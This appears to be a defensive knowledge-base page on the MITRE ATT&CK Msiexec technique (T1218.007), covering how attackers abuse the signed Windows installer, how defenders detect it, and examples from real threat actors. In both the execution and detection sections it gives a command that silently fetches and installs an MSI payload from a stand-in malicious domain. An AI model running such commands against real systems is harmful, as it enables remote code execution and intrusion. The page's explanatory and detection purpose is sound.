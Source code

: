 ```yaml
---
description: Msiexec [T1218.007]
icon: lock
---
```


# Msiexec

## Information

- Name: Msiexec
- ID: T1218.007
- Tactics: [TA0005](../TA0005/TA0005.md)
- Technique: [T1218](T1218.md)

## Introduction

Msiexec (T1218.007) is a sub-technique under the MITRE ATT\&CK framework's Signed Binary Proxy Execution (T1218) technique. Attackers leverage the legitimate Windows Installer executable "msiexec.exe" to execute malicious payloads, bypass application control measures, and evade detection. Because msiexec.exe is a trusted and digitally signed Windows binary, adversaries exploit this trust to mask their malicious activities.

## Deep Dive Into Technique

The Msiexec utility is a built-in Windows application responsible for installing, modifying, and uninstalling Windows Installer packages (.msi files). Attackers abuse this legitimate functionality to execute malicious code by embedding payloads within installer packages or by passing specially crafted command-line arguments.

Technical details of execution methods:

- **Direct Execution of Malicious MSI Files**:

  - Attackers craft malicious MSI installer packages containing embedded payloads or scripts.
  - Execute using command-line:

    ```
    msiexec.exe /i malicious.msi /quiet
    ```

  - The `/quiet` flag suppresses user interaction, allowing stealthy execution.

- **Remote Execution via URLs**:

  - Msiexec can download and execute MSI files directly from remote locations:

    ```
    msiexec.exe /i http://malicious.domain/payload.msi /quiet
    ```

  - This method eliminates the need to store payloads locally, reducing forensic artifacts.

- **Embedding Scripts and Commands**:
  - Attackers can embed custom scripts (VBScript, JScript) within MSI files.
  - Upon installation, these scripts execute malicious commands or download secondary payloads.
- **DLL Side-loading via MSI**:
  - Attackers leverage MSI installers to perform DLL side-loading attacks, loading malicious DLLs via trusted binaries.

Real-world procedures often involve:

- Social engineering to trick users into executing malicious MSI files.
- Phishing campaigns distributing malicious MSI attachments or URLs.
- Exploitation of compromised supply chains to distribute malicious MSI installers.

## When this Technique is Usually Used

Attackers typically employ Msiexec (T1218.007) during various stages of the attack lifecycle:

- **Initial Access**:
  - Phishing emails containing malicious MSI attachments or links.
  - Malicious software downloads from compromised websites or software repositories.
- **Execution**:
  - Direct execution of malicious MSI files to run payloads on target systems.
  - Remote MSI execution to avoid local file detection and analysis.
- **Defense Evasion**:
  - Leveraging trusted binaries and legitimate installer processes to bypass security controls, application whitelisting, and endpoint detection solutions.
- **Persistence**:
  - Installing malicious software or scripts that establish persistent footholds through MSI packages.
- **Privilege Escalation**:
  - Abuse of MSI installers that run with elevated privileges to escalate attacker privileges.

## How this Technique is Usually Detected

Detection methods and tools commonly used to identify Msiexec abuse include:

- **Command-line Monitoring**:

  - Monitoring execution of msiexec.exe with suspicious flags or remote URLs.
  - Example suspicious command:

    ```
    msiexec.exe /i http://malicious.domain/payload.msi /quiet
    ```

- **Endpoint Detection and Response (EDR)**:
  - EDR solutions monitor and analyze process executions, command-line arguments, and behaviors of msiexec.exe.
  - Detecting anomalous parent-child process relationships involving msiexec.exe.
- **Network Traffic Analysis**:
  - Monitoring network traffic for unusual MSI file downloads from external or unknown domains.
  - Detecting unusual HTTP requests initiated by msiexec.exe.
- **File Integrity Monitoring (FIM)**:
  - Monitoring MSI files created or modified in unusual directories or at unexpected times.
- **Behavioral Analytics and SIEM Correlation**:
  - SIEM tools correlate events involving msiexec.exe executions with other suspicious activities and indicators.

Common Indicators of Compromise (IoCs):

- Suspicious MSI file hashes identified by threat intelligence feeds.
- Unfamiliar or unsigned MSI installer files.
- Network connections initiated by msiexec.exe to untrusted or malicious domains.
- Unusual msiexec.exe executions outside normal software installation periods or processes.

## Why it is Important to Detect This Technique

Early detection of Msiexec abuse is crucial due to the potential severity of impacts:

- **Initial Compromise and Malware Installation**:
  - Attackers can quickly establish footholds, leading to advanced persistent threats (APTs), ransomware infections, or data exfiltration.
- **Bypassing Security Controls**:
  - Msiexec is a trusted Windows binary, allowing attackers to bypass application whitelisting, endpoint protection, and antivirus solutions, facilitating stealthy and persistent attacks.
- **Privilege Escalation and Lateral Movement**:
  - Misuse of MSI installers may lead to privilege escalation, enabling attackers to gain administrative control and propagate deeper into networks.
- **Data Breach and Exfiltration**:
  - Attackers leveraging this technique can deploy tools that exfiltrate sensitive data, leading to significant financial and reputational damage.
- **Operational Disruption**:
  - Malicious MSI installers can deploy ransomware or destructive malware, causing severe operational disruptions and downtime.

Proactive detection minimizes the attacker's dwell time, reduces potential damage, and enhances an organization's overall security posture.

## Examples

Real-world examples and attack scenarios illustrating Msiexec abuse:

- **APT Groups (Advanced Persistent Threats)**:
  - Several nation-state threat actors have leveraged malicious MSI installers in targeted espionage campaigns. For example, APT29 (Cozy Bear) has used MSI files containing malicious payloads in spear-phishing campaigns to gain initial access and persistence.
- **FIN7 Cybercrime Group**:
  - FIN7 has distributed malicious MSI files via spear-phishing emails masquerading as legitimate software updates or invoices. Upon execution, these MSI files deploy malware such as Carbanak for financial fraud and data theft.
- **Ransomware Campaigns**:
  - Ransomware operators distribute malicious MSI files via phishing emails or compromised websites. MSI installers silently deploy ransomware payloads, encrypting victim data and demanding ransom payments.
- **Supply Chain Attacks**:
  - Attackers compromise legitimate software distribution channels, embedding malicious MSI installers within legitimate software updates. Users unknowingly execute these malicious MSI files, providing attackers widespread access.

Tools commonly associated with this technique:

- **Advanced Installer, WiX Toolset, Orca**:
  - Legitimate, freely available tools attackers abuse to craft malicious MSI installers.
- **Metasploit Framework**:
  - Attackers use Metasploit to generate malicious MSI payloads for penetration testing or malicious attacks.

Impacts observed in real-world scenarios:

- Financial losses due to data breaches and ransomware infections.
- Compromise of sensitive intellectual property and confidential data.
- Reputational damage resulting from publicized security incidents.
- Operational disruptions and downtime due to malware infections and remediation efforts.
